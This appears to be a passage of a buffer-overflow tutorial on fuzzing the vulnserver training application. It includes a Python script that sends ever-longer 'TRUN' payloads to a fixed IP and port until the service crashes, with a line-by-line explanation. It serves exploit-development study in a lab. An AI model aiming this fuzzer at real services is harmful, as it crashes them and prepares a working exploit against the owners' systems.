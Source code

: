 - In theory fuzzing is almost the same as spiking, except in spiking we attacked all the commands to check which one is vulnerable, but in fuzzing we attack the vulnerable command alone.
- So now perform the same steps you performed to get vulnserver attached and running in immunity debugger
- Once you've done that, let's make a script that we'll be using to perform fuzzing
- Name the script fuzz1.py and add the following in it

	```
```#!/usr/bin/python3
	import sys, socket 
	from time import sleep
	
	buffer  = "A" * 100
	
	while True:
	        try:
	                s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	                s.connect(('172.18.176.193',9999))
	                payload = "TRUN /.:/" + buffer
	                s.send((payload.encode()))
	                s.close()
	                sleep(1)
	                buffer = buffer + "A" * 100
	                
	        except:
	                print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
	                sys.exit()
```

- Starting off from the top, we're just declaring that this is a python script and importing some modules
- We're declaring a buffer variables that contains 100 A's
- And inside the while loop that runs for true condition we're specifying the ip address and the port number to connect to.
- Once we do that we're going to send the trun command with 100 A's
- If you remember looking at the vulnerable trun command register in immunity, there were these characters `/.:/`. This was incorporated so that the program can understand it.
- We're using encoding so that python does byte encoding to send these characters.
- Once that's done the connection closes and sleeps for a second.
- Following that, we appended 100 A's to buffer again.
- So as long as there's a connection we're going to keep sending the buffer that keeps getting bigger and bigger.
- So once we fuzz it, it will print the specific byte at which broke.
- That's why we're giving the exception that says fuzzing crashed at x bytes.
- save the file and change the perm by typing `chmod +x <filename>`
- Establish the connection by typing `python3 fuzz1.py`
- We see that the server crashed and can see the register output once immunity pauses.
- Next up we'll determine what the EIP value is and where does it correspond in specific number of bytes we send over.